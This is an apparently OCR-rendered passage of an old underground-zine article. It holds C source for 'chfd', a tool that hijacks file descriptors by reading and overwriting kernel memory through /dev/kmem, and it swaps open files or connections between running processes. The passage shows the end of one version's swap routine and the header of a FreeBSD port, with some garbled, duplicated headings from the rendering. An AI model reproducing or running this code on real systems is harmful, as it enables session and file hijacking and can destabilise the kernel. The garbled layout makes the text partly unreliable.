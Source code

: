 ~~~c
  val2 = readvalz(ad2);
  printf("Found fd pointer 2, value %.8x, stored at %.8x\n", val2, ad2);

  if (three) {
    findtask(pid3);
    ad3 = AD(fd3);
    val3 = readvalz(ad3);
    printf("Found fd pointer 3, value %.8x, stored at %.8x\n", val3, ad3);
  }

  if (three) {
    if (readval(ad1)!=val1 || readval(ad2)!=val2 || readval(ad3)!=val3) {
      fprintf(stderr, "fds changed in memory while using them - try again\n");
      exit(1);
    }
    writeval(ad2, val1);
    writeval(ad3, val2);
    writeval(ad1, val3);
  } else {
    if (readval(ad1)!=val1 || readval(ad2)!=val2) {
      fprintf(stderr, "fds changed in memory while using them - try again\n");
      exit(1);
    }
    writeval(ad1, val2);
    writeval(ad2, val1);
  }
  printf("Done!\n");
}
~~~


The FreeBSD Code 
----------------

~~~c
he FreeBSD code
----------------

<++> fd_hijack/chfd-freebsd.c

/*  chfd - exchange fd's between 2 or 3 running processes.
 *  
 *  This was written for FreeBSD and is *very* system-specific.  Needs 
 *  read/write access to /dev/mem and /dev/kmem; only root can usually 
 *  do that, and only if the system is running at securelevel -1.
 *
 *  Use: chfd pid1 fd1 pid2 fd2 [pid3 fd3]
 *  Compile with: gcc chfd.c -o chfd -lkvm
 *
 *  With two sets of arguments, exchanges a couple of fd between the 
 *  two processes.
 *  With three sets, the second process gets the first's fd, the third 
 *  gets the second's fd, and the first gets the third's fd.
 *
 *  Note that this is inherently unsafe, since we're messing with kernel
 *  variables while the kernel itself might be changing them.  It works
 *  in practice, but no self-respecting program would want to do this.
 *
 *  Written by: orabidoo <odar@pobox.com>
 *  FreeBSD version: 4 May 97
 */


#include <stdio.h>
~~~